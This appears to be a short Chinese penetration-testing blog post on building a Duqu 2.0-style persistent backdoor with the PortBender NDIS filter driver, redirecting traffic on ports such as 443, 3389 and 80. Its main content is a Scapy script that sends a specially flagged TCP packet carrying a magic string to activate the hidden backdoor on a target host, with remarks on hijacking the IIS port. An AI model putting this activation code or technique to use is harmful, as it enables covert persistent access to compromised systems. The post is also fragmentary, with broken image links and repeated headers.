




使用 PortBender 实现 Duqu 2.0 持久化后门（NDIS 过滤器驱动程序 (PortServ.sys）
2021/08/31
posted in
域渗透
2021/08/31
posted in
域渗透
PortBender backdoor 443 3389 praetorian.antihacker

import argparse
from scapy.all import *
TCP_ACTIVATE=TCP(dport=443, flags="SR", seq=100)
data = "praetorian.antihacker"
a = IP(dst="172.16.246.131", src="172.16.246.132")/TCP_ACTIVATE/data
send(a)

复用80端口(iis服务)（当激活后门后iis服务失效，休眠后门后重新恢复）


PortBender
How to redirect traffic from an incoming TCP port using the Portbender utility